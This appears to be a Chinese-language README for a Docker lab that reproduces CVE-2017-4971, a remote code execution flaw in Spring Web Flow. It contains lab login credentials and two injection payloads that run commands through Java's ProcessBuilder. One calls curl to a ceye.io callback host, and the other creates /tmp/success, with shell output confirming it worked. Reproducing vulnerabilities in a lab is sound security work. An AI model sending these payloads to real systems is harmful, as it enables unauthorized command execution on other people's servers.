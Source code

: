 URL:https://threathunter.org/topic/593d562353ab369c55425a90

## 测试环境搭建

```
docker-compose build
docker-compose up -d

安全完之后直接访问http://0.0.0.0:30082
```
登录账号：keith
登录密码：melbourne

```
ceye.io测试
&_(new+java.lang.ProcessBuilder("/usr/bin/curl","http://spring.test.ceye.io/")).start()=iswin
```
```
&_(new+java.lang.ProcessBuilder("/usr/bin/touch","/tmp/success")).start()=iswin
会在docker 容器里面生成一个success文件
root@18c62faacda0:/tmp# ls
hsperfdata_root  success
```

![1.png](https://raw.githubusercontent.com/Loneyers/vuldocker/master/CVE-2017-4971/1.png)
![2.png](https://raw.githubusercontent.com/Loneyers/vuldocker/master/CVE-2017-4971/2.png)